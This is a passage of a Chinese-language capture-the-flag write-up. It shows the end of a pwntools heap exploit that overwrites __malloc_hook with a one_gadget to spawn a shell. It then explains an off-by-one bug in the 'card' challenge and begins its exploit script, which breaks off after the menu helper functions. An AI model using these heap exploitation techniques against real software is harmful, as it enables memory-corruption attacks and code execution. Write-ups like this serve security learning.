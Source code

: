```
system = libc_base + libc.sym['system']
add(0,0x60)
delete(0)
#gdb.attach(sh)
edit(2,p64(malloc_hook-0x23))
print hex(libc_base)
delete(3)
add(3,0x60)
add(0,0x60)
edit(0,'a'*0x13+p64(0xf1147+libc_base))

#gdb.attach(sh)
delete(3)
add(3,0x60)

ti()
```



## card

本题就是简单的off by one，难点就在于逆向时很难发现漏洞，但是可以通过调试发现。

就是在eidt函数中这段代码，其实是size的第3 bit为1时候，返回值为1.<br>`(unsigned int)((signed int)((((HIDWORD(v1) &gt;&gt; 28) + (unsigned __int8)v1) &amp; 0xF) - (HIDWORD(v1) &gt;&gt; 28)) &gt;&gt; 3)`<br>
造成后面读取输入时溢出一个字节。

[![](https://p4.ssl.qhimg.com/t01f746627dae12e88e.png)](https://p4.ssl.qhimg.com/t01f746627dae12e88e.png)

```
v1 = vuln(size);
return read(0, *((void **)&amp;heap + 2 * (int)v4), v0 + v1);
```

就是常规的off by one，成功拿到三血

完整wp如下：

```
from pwn import *
import LibcSearcher
context.log_level = 'debug'
sa = lambda s,n : sh.sendafter(s,n)
sla = lambda s,n : sh.sendlineafter(s,n)
sl = lambda s : sh.sendline(s)
sd = lambda s : sh.send(s)
rc = lambda n : sh.recv(n)
ru = lambda s : sh.recvuntil(s)
ti = lambda : sh.interactive()


def add(idx,size,con='1'):
    sla('choice:','1')
    sla('card:',str(idx))
    sla('power:',str(size))
    sla('quickly!',con)
def edit(idx,con):
    sla('choice:','2')
    sla('card',str(idx))
    sla('bomb show',con)
def delete(idx):
    sla('choice:','3')
    sla('card:',str(idx))
def show(idx):
    sla('choice:','4')
```